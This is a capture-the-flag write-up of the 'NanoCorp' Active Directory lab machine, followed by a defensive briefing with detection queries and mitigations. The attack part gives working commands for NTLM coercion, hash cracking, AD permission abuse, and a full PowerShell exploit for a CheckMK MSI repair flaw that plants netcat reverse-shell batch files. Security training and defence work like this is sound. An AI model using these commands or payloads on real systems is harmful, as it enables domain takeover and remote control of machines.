# NanoCorp 

```
Difficulty: Hard
Operating System: Windows
Hints: True

```

## Overview

NanoCorp is an Active Directory–based machine involving web enumeration, NTLM capture via a CVE-2025-24071 exploitation path, Kerberos abuse, AD privilege escalation, and lateral movement through WinRM, followed by a CheckMK MSI repair exploit for SYSTEM.

### Summary of Attack Chain

| Step | User / Access                | Technique Used                                          | Result                                                                                 |
| :--: | : | : | :- |
|   1  | (Local / Recon)              | **nmap -A -Pn 10.10.11.93**                             | Identified AD environment + HTTPS web service on `nanocorp.htb`.                       |
|   2  | (attacker)                   | **Dirbuster → /About Us → Apply Now**                   | Discovered new subdomain **hire.nanocorp.htb**.                                        |
|   3  | (attacker)                   | **CVE-2025-24071 ZIP Upload → Responder**               | Forced outbound NTLM leak from web server; captured **WEB_SVC NTLMv2 hash**.           |
|   4  | (attacker)                   | **hashcat -m 5600**                                     | Cracked password: `WEB_SVC:dksXXXXXXXXXXX`.                                            |
|   5  | WEB_SVC (domain user)        | **SMB & Kerberos → impacket-getTGT**                    | Obtained a valid **Kerberos TGT** for WEB_SVC.                                         |
|   6  | WEB_SVC (kerberos auth)      | **bloodhound-python (All collection)**                  | Enumerated AD → Found privilege path via **IT_SUPPORT** group + user `monitoring_svc`. |
|   7  | WEB_SVC (AD rights abuse)    | **bloodyAD add groupMember it_support web_svc**         | Added self (WEB_SVC) into **IT_SUPPORT** elevated group.                               |
|   8  | WEB_SVC (IT_SUPPORT)         | **bloodyAD set password monitoring_svc ‘P@ssw0rd444!’** | Reset credentials for **monitoring_svc**.                                              |
|   9  | monitoring_svc (domain user) | **impacket-getTGT + winrmexec (5986)**                  | Logged into domain controller via **WinRM**; obtained stable shell.                    |
|  10  | monitoring_svc (DC shell)    | **CheckMK MSI Repair Exploit (msiexec /fa)**            | Executed malicious `.cmd` during repair phase → triggered RCE payload.                 |
|  11  | SYSTEM                       | **nc.exe reverse shell**                                | Achieved full **SYSTEM** access on DC01 (root equivalent).                             |


## Enumeration

### Nmap

```
nmap -A -Pn 10.10.11.93 -o nmapresult
# Nmap 7.95 scan initiated Sat Nov 22 18:06:53 2025 as: /usr/lib/nmap/nmap --privileged -A -Pn -o nanocorpscan 10.10.11.93
Nmap scan report for nanocorp.htb (10.10.11.93)
Host is up (0.60s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Nanocorp
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-11-22 19:37:25Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5986/tcp open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.nanocorp.htb
| Subject Alternative Name: DNS:dc01.nanocorp.htb
| Not valid before: 2025-04-06T22:58:43
|_Not valid after:  2026-04-06T23:18:43
|_http-title: Not Found
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2022
Aggressive OS guesses: Microsoft Windows Server 2022 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-22T19:38:24
|_  start_date: N/A
|_clock-skew: 1h29m53s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   521.33 ms 10.10.16.1
2   777.84 ms nanocorp.htb (10.10.11.93)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 22 18:09:22 2025 -- 1 IP address (1 host up) scanned in 149.23 seconds
```

### Hosts Entry

```
echo "10.10.11.93 nanocorp.htb dc01.nanocorp.htb hirenanocorp.htb" >> /etc/hosts
```

### Directory Bruteforce

```
dirbuster -u http://nanocorp.htb \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



### Time Sync for Kerberos

```
ntpdate 10.10.11.93 dc01.nanocorp.htb0
```

### SMB/LDAP Enumeration

```
enum4linux 10.10.11.93
```

### Username Bruteforce

```
kerbrute userenum –dc 10.10.11.93 -d nanocorp.htb \
  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


## Web Exploration

Clicking **About Us → Apply Now** reveals a new subdomain:

```
hire.nanocorp.htb
echo "10.10.11.93 nanocorp.htb hire.nanocorp.htb dc01.nanocorp.htb nanocorp.htb0" >> /etc/hosts
```


### CVE-2025-24071 Exploitation (Zip Upload → NTLM Capture)

Clone PoC:

```
git clone https://github.com/0x6rss/CVE-2025-24071_PoC
cd CVE-2025-24071_PoC
```

Run Responder:

```
sudo responder -I tun0 -v
```

Generate malicious ZIP:

```
python3 poc.py
```

Upload `exploit.zip` to **hire.nanocorp.htb**.




### Crack Hash

```
hashcat -m 5600 -a 0 hash.txt /home/kali/Desktop/wordlists/rockyou.txt --force

hashcat -m 5600 hash.txt --show
WEB_SVC:dksXXXXXXXXXXX
```



## Initial Access (SMB → Kerberos)

### SMB Listing

```
smbclient -L //10.10.11.93 -U WEB_SVC
```

Shares discovered:

* ADMIN$
* C$
* IPC$
* NETLOGON
* SYSVOL





### Kerberos TGT

```
impacket-getTGT -dc-ip 10.10.11.93 'nanocorp.htb/WEB_SVC:dksXXXXXXXXXXX'
export KRB5CCNAME=WEB_SVC.ccache
klist
```



## BloodHound Enumeration

```
bloodhound-python -u 'WEB_SVC' -p 'dksXXXXXXXXXXX' \
  -d nanocorp.htb -c All -o bloodhound_results.json \
  -ns 10.10.11.93 -k
```

Interesting group: **[IT_SUPPORT@NANOCORP.HTB](mailto:IT_SUPPORT@NANOCORP.HTB)**

Found additional user: **monitoring_svc**



## Privilege Escalation to IT_SUPPORT

### Add `web_svc` to IT_SUPPORT

```
bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb \
  -u 'web_svc' -p 'dksXXXXXXXXXXX' -k \
  add groupMember it_support web_svc
```





### Reset Password for monitoring_svc

```
bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb \
  -u 'web_svc' -p 'dksXXXXXXXXXXX' -k \
  set password monitoring_svc 'P@ssw0rd444!'
```



### Kerberos Login

```
impacket-getTGT 'nanocorp.htb/monitoring_svc:P@ssw0rd444!'
export KRB5CCNAME=monitoring_svc.ccache
klist
```



## Shell via WinRM

```
git clone https://github.com/ozelis/winrmexec.git
python3 winrmexec.py -ssl -port 5986 -k \
  nanocorp.htb/monitoring_svc@dc01.nanocorp.htb -no-pass
```




# Privilege Escalation to SYSTEM (CheckMK MSI Repair Exploit)

### Upload Tools

From local:

```
cp /usr/share/windows-resources/binaries/nc.exe .
python3 -m http.server 8000
```

On target:

```
cd C:\Windows\Temp
wget "http://10.10.14.34:8000/nc.exe" -UseBasicParsing -OutFile "nc.exe"
wget "http://10.10.14.34:8000/RunasCs.exe" -UseBasicParsing -OutFile "RunasCs.exe"
```


## Prepare Payload (exp.ps1)

Create local payload:

```
nano pwn.ps1
```

Paste (adjust LHOST/LPORT):

```powershell
param(

    [int]$MinPID = 1000,

    [int]$MaxPID = 15000,

    [string]$LHOST = "10.10.XX.XX",

    [string]$LPORT = "9001"

)
 
# 1. Define the malicious batch payload

$NcPath = "C:\Windows\Temp\nc.exe"

$BatchPayload = "@echo off`r`n$NcPath -e cmd.exe $LHOST $LPORT"
 
# 2. Find the MSI trigger

$msi = (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\S-1-5-18\Products\*\InstallProperties' |

        Where-Object { $_.DisplayName -like '*mk*' } |

        Select-Object -First 1).LocalPackage
 
if (!$msi) {

    Write-Error "Could not find Checkmk MSI"

    return

}
 
Write-Host "[*] Found MSI at $msi"
 
# 3. Spray the Read-Only files

Write-Host "[*] Seeding $MinPID to $MaxPID..."

foreach ($ctr in 0..1) {

    for ($num = $MinPID; $num -le $MaxPID; $num++) {

        $filePath = "C:\Windows\Temp\cmk_all_$($num)_$($ctr).cmd"

        try {

            [System.IO.File]::WriteAllText($filePath, $BatchPayload, [System.Text.Encoding]::ASCII)

            Set-ItemProperty -Path $filePath -Name IsReadOnly -Value $true -ErrorAction SilentlyContinue

        } catch {

            # 123

        }

    }

}

Write-Host "[*] Seeding complete."
 
# 4. Launch the trigger

Write-Host "[*] Triggering MSI repair..."

Start-Process "msiexec.exe" -ArgumentList "/fa `"$msi`" /qn /l*vx C:\Windows\Temp\cmk_repair.log" -Wait

Write-Host "[*] Trigger sent. Check listener."
 
```

Upload:

```
wget "http://10.10.14.34:8000/pwn.ps1" -UseBasicParsing -OutFile "pwn.ps1"
```





### Listener

```
nc -lvnp 9001
```


## Trigger SYSTEM Shell

```
.\RunasCs.exe web_svc "dksXXXXXXXXXXX" \
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\exp.ps1"
```





Reverse shell received → **SYSTEM**.


# NanoCorp: Tactical Operations Briefing

## Strategic Overview

* **1.1 Definition:** Active Directory compromise leveraging a web-based Side-Channel Attack (SMB Coercion) coupled with Discretionary Access Control List (DACL) abuse and local installer logic exploitation.
* **1.2 Impact:** **Domain Controller Compromise (SYSTEM)**. The adversary transitions from an unauthenticated web context to Domain Admin equivalent privileges by chaining forced NTLM authentication, delegation abuse, and a local privilege escalation within the CheckMK agent.
* **1.3 The Scenario:** An adversary identifies a resume upload portal (`hire.nanocorp.htb`) vulnerable to CVE-2025-24071. By uploading a malicious archive, they coerce the web server into initiating an outbound NTLM connection. Recovered credentials allow for AD enumeration, revealing a path to privilege escalation via the `IT_SUPPORT` group. Lateral movement to the Domain Controller is followed by exploiting a "Repair Mode" vulnerability in the installed CheckMK software to gain SYSTEM execution.


## System Architecture & Theory

* **2.1 Protocol Environment:**
* **Edge:** Apache/2.4.58 (PHP 8.2.12).
* **Identity:** Active Directory (Kerberos/NTLM).
* **Management:** CheckMK Agent (IT Monitoring), WinRM.


* **2.2 Attack Logic Flow:**
> [Public Web Upload] -> [Forced NTLM Auth] -> [Credential Cracking] -> [AD Group Self-Add] -> [Service Account Takeover] -> [WinRM Access] -> [MSI Repair Exploit] -> [SYSTEM]


* **2.3 Theoretical Analogy:** The attacker tricks the mailroom clerk into sending a letter to a fake address (NTLM Leak), intercepting the return ID badge. Using this badge, they authorize themselves as "IT Staff" (DACL Abuse), reset the janitor's password (Account Takeover), and finally manipulate the building's automated repair system (CheckMK) to demolish the security doors.


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute               | Technical Details                                                                                                                                                |
| :---------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers** | `hire.nanocorp.htb`, `WEB_SVC` account, `IT_SUPPORT` group, **CheckMK MSI installer**.                                                                           |
| **Critical Weakness**   | **CVE-2025-24071** (ZIP upload triggering SMB authentication) combined with **insecure Active Directory delegation** (`WriteMember`).                            |
| **Offensive Technique** | Delivery of a malicious ZIP containing a symbolic link to an attacker-controlled SMB share, followed by Active Directory object manipulation using **BloodyAD**. |


### Prerequisites

* **Access Level:** Public Web Access.
* **Connectivity:** TCP 80 (HTTP), UDP/TCP 53 (DNS), TCP 5986 (WinRM).
* **Target State:** Web server allowed to initiate outbound SMB (TCP 445) connections. `WEB_SVC` account granted excessive permissions over `IT_SUPPORT`.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries will coerce servers into authenticating to external IPs. Look for `System` process (PID 4) or `lsass.exe` initiating connections to public IP addresses on port 445. Internally, look for rapid, sequential file creation in `C:\Windows\Temp\` matching the pattern `cmk_all_*.cmd` (MSI Exploit).
* **Behavioral Outliers:**
* **Network:** Outbound SMB traffic from a DMZ Web Server.
* **Active Directory:** Event ID 4728 (Member Added to Security Global Group) where the "Subject User Name" is a service account (`WEB_SVC`) rather than an Admin.
* **Local Host:** `msiexec.exe` launching `cmd.exe` or `powershell.exe` as a child process (Uncommon for legitimate MSI repairs).


* **Toxic Combinations:** The `WEB_SVC` user has `WriteMember` rights on the `IT_SUPPORT` group, and `IT_SUPPORT` has `ForceChangePassword` rights on `monitoring_svc`. This creates a direct "Kill Chain."


## Detection Engineering

* **Telemetry Gap Analysis:**
* **Firewall Logs:** Outbound traffic on port 445/139.
* **AD Audit Logs:** Object Modification events (Event ID 4728, 4724).
* **Endpoint:** Process Command Line (Sysmon ID 1) for `msiexec /fa` (File Association Repair).


* **Detection-as-Code (KQL):**

```kql
// Detect Suspicious AD Group Modification by Service Account
// Trigger: High Severity
SecurityEvent
| where EventID == 4728 // A member was added to a security-enabled global group
| extend TargetGroup = TargetUserName
| extend Actor = SubjectUserName
// Filter for Service Accounts modifying Privileged/IT Groups
| where Actor endswith "$" or Actor contains "_svc"
| where TargetGroup contains "Admin" or TargetGroup contains "IT_" or TargetGroup contains "Support"
| project TimeGenerated, Actor, TargetGroup, MemberName, Computer

```

* **Resilience Test:**
* **Bypass:** The attacker could wait for a legitimate administrator to log in and dump LSASS, avoiding the noisy AD ACL manipulation.
* **Sub-Rule Countermeasure:** Alert on *any* password reset (Event ID 4724) targeted at service accounts initiated by non-Domain Admin accounts.


## Toolkit & Implementation

* **Automation:**
* `Responder`: NTLM Challenge/Response capture.
* `BloodyAD` / `BloodHound`: Active Directory visualization and ACL exploitation.
* `RunasCs`: Executing processes in different login contexts (Bypassing restrictive PSSessions).


* **OPSEC Analysis:**
* **Network:** The NTLM capture requires an outbound connection which is easily flagged by egress filtering.
* **AD:** Modifying group membership is a "hard" change logged on the DC. It is not stealthy.
* **System:** The CheckMK exploit involves spraying thousands of files into `Temp`. This generates a massive volume of File Create events (Sysmon ID 11).


* **Post-Exploitation:** The attacker achieves SYSTEM on the DC. They can now dump `NTDS.dit` (Golden Ticket) or pivot to any other machine in the forest.


## Defensive Mitigation

* **Technical Hardening:**
* **Network:** Block outbound SMB (TCP 445/139) from all web servers at the perimeter firewall.
* **Active Directory:** Audit and strip "Self-Service" or "Write" permissions for Service Accounts on operational groups (`IT_SUPPORT`). Implement Tiered Administration.
* **Application:** Patch CheckMK agents to the latest version to mitigate local MSI logic flaws.


* **Personnel Focus:**
* Sysadmins should monitor "Risky Sign-ins" and Service Account behavioral anomalies.
* Review "Shadow Admins"—accounts that are not Domain Admins but can reset passwords of high-value targets.


## Quick-Action Playbook

| Step | Objective                        | Technique / Command                                                                  |
| :--: | :- | :-- |
|   1  | **Initial Access**               | **python3 poc.py**                                                                   |
|      |                                  | Uploaded a crafted ZIP to trigger outbound SMB authentication via file reference.    |
|   2  | **Privilege Escalation (AD)**    | **bloodyAD add groupMember / bloodyAD set password**                                 |
|      |                                  | Abused delegated AD permissions to modify group membership and credentials.          |
|   3  | **Privilege Escalation (Local)** | **msiexec /fa <MSI> /qn**                                                            |
|      |                                  | Exploited a repair-time race condition in the CheckMK MSI to obtain elevated access. |
